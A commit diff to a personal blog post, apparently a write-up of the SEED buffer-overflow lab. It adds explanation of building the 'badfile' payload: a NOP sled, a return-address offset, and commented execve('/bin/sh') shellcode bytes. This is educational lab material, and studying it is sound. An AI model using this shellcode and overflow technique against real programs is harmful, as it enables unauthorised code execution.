

Before and after one commit to XingjianXuanyuan/XingjianXuanyuan.github.io, a Jekyll site: the page built from _posts/2021-11-17-SEED-buffer-overflow.md, in a window 1280 px wide and 1400 px high, scrolled down 7916 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; formulas are drawn with MathJax 3; some of the changed text lies outside the part shown.

Commit message:
yaml code block

````diff
--- a/_posts/2021-11-17-SEED-buffer-overflow.md
+++ b/_posts/2021-11-17-SEED-buffer-overflow.md
@@ -106,7 +106,7 @@ Oh Danny Boy the pipes the pipes are calling.%
 
 ## Task 2: Understanding the Vulnerable Program
 
-The <code>stack.c</code> program shown below reads $517$ bytes of data from a file called <code>badfile</code>, and then copies the data to a buffer of size $100$:
+The <code>stack.c</code> program shown below reads $517$ bytes of data from a file called "<code>badfile</code>", and then copies the data to a buffer of size $100$:
 
 ```c
 /* stack.c */
@@ -232,7 +232,7 @@ Breakpoint 1, bof (str=0xffffd1c3 "V\004") at stack.c:16
 16	{
 ```
 
-When <code>gdb</code> stops inside the <code>bof</code> function, it stops before the <code>ebp</code> register is set to point to the current stack frame, so if we print out the value of <code>ebp</code> here, we will get the caller's <code>ebp</code> value. We need to use the <code>next</code> command[^2] to execute a few instructions and stop after the <code>ebp</code> register is modified to point to the stack frame of the <code>bof</code> function.
+When <code>gdb</code> stops inside the <code>bof</code> function, it stops before the <code>ebp</code> register is set to point to the current stack frame, so if we print out the value of <code>$ebp</code> here, we will get the caller's <code>$ebp</code> value. We need to use the <code>next</code> command[^2] to execute a few instructions and stop after the <code>ebp</code> register is modified to point to the stack frame of the <code>bof</code> function.
 
 ```console
 gdb-peda$ next
@@ -281,7 +281,29 @@ $2 = (char (*)[100]) 0xffffcd2c
 
 ### Launching attacks
 
-Since the value of the stack frame pointer is <code>0xffffcd98</code>, the return address is stored in <code>0xffffcd98 + 4</code>; the first address that we can jump to is <code>0xffffcd98 + 8</code>, which can be put inside the return address field. The distance between the address of <code>$ebp</code> (<code>0xffffcd98</code>) and the buffer (<code>0xffffcd2c</code>) is <code>0x6c</code>, which is $108$ in decimalnotation. Therefore, the distance between the buffer's starting point and the return address field is $112$.
+Since the value of the stack frame pointer is <code>0xffffcd98</code>, the return address is stored in <code>0xffffcd98 + 4</code>; the first address that we can jump to is <code>0xffffcd98 + 8</code>, which can be put inside the return address field. The distance between the address of the <code>ebp</code> register (<code>0xffffcd98</code>) and the buffer (<code>0xffffcd2c</code>) is <code>0x6c</code>, which is $108$ in decimal notation. Therefore, the distance between the buffer's starting point and the return address field is $112$.
+
+To write the "<code>badfile</code>" in Python, an array of size $517$ bytes is created and filled with <code>0x90</code> (the <code>NOP</code> instruction). Since <code>gdb</code> may push some additional data onto the stack at the beginning, causing the stack frame to be allocated deeper than it would be when the program executes directly, the first address that we can jump to may be higher than <code>$ebp + 8</code>. Here I choose <code>$ebp + 120</code>. The return address field starts from offset $112$ and ends at offset $116$ (not including $116$), i.e., <code>content[112:116]</code>. The x86 architecture uses the little-endian order, so in Python, when putting a $4$-byte address into the memory, <code>byteorder='little'</code> is used to specify the byte order.
+
+At the end of the "<code>badfile</code>", a bunch of shellcode is included, the aim of which is to use the <code>execve()</code> system call to run <code>/bin/sh</code>. The corresponding program is presented in [Task 1](#task-1-getting-familiar-with-shellcode). Registers <code>eax</code>, <code>ebx</code>, <code>ecx</code>, <code>edx</code> should be configured correctly. A system call is executed using the instruction <code>int $0x80</code>.
+
+```yaml
+"\x31\xc0"      # xorl  %eax, %eax
+"\x50"          # pushl %eax
+"\x68""//sh"    # pushl $0x68732f2f
+"\x68""/bin"    # pushl $0x6e69622f
+"\x89\xe3"      # movl  %esp, %ebx
+"\x50"          # pushl %eax
+"\x53"          # pushl %ebx
+"\x89\xe1"      # movl  %esp, %ecx
+"\x99"          # cdq
+"\xb0\x0b"      # movb  $0x0b, %al
+"\xcd\x80"      # int   $0x80
+```
+
+- Line 1: Using XOR operation on <code>%eax</code> will set <code>%eax</code> to zero without introducing a zero in the code.
+- Line 2: Push a zero onto the stack, which marks the end of the "<code>/bin/sh</code>" string.
+- Line 3: Push "<code>//sh</code>" onto the stack (double slash, treated by the system call as the same as the single slash, is used because $4$ bytes are needed for instruction).
 
 ## Notes
 
````
